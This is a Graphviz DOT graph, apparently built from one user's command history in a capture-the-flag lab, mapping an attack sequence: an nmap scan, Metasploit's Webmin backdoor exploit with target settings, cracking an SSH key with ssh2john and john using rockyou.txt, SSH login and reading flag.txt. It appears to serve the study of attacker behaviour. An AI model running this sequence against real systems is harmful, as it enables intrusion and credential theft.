 // creating graph for user: 43
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	8 [label="chmod +x webmin.sh A15 "]
	12 [label="ls A10 "]
	13 [label="chmod +x 47230.rb A15 "]
	14 [label="ls A10 "]
	22 [label="msfconsole M2 "]
	23 [label="use 47230.rb A4 "]
	24 [label="show targets A5 "]
	25 [label="set TARGET 0 A6 "]
	26 [label="exploit M8 "]
	27 [label="show options M5 "]
	28 [label="set TARGETURI /root/ A6 "]
	30 [label="set RHOSTS 172.18.1.1 M6 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M4 "]
	56 [label="check A7 "]
	94 [label="ls A10 "]
	95 [label="./ssh2john.py ~/Desktop/key.txt > hash A14 A16 "]
	96 [label="ls A10 "]
	97 [label="man john A14 "]
	98 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	107 [label="ssh -i key.txt eve@10.1.17.45 M16 "]
	110 [label="chmod 777 key.txt A15 "]
	112 [label="chmod 400 key.txt A15 "]
	114 [label="ls A10 "]
	116 [label="ls A10 "]
	117 [label="cat flag.txt M17 "]
	0 -> 8 [constraint=false]
	8 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 30 [constraint=false]
	30 -> 32 [constraint=false]
	32 -> 56 [constraint=false]
	56 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 107 [constraint=false]
	107 -> 110 [constraint=false]
	110 -> 112 [constraint=false]
	112 -> 114 [constraint=false]
	114 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	rankdir=LR
}
